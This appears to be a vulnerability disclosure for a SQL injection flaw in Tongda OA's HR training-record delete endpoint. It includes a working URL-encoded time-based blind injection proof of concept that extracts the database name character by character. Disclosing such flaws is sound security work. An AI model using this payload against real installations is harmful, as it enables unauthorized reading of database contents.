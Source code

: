 SQL injection vulnerability exists in Tongda OA

verison:v2017 and versions below v11.10

Route: general/hr/training/record/delete.php

There is an injected parameter: $RECORD_ID

The code here is very concise. When $RECORD_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![图片1](https://github.com/Godfather-onec/cve/assets/82714037/5aee2f5f-0182-41e7-9150-f6a0dbe472f7)

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)% 20and(1)=(1
```
![图片2](https://github.com/Godfather-onec/cve/assets/82714037/c2d866e8-dded-41d9-8a6e-8a69b7b2f708)

And when we change 116 to 115, there will be no delay, indicating the existence of SQL injection.

1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)% 20and(1)=(1

![图片3](https://github.com/Godfather-onec/cve/assets/82714037/9783858e-7df4-4782-8e5c-a73eb72ee857)
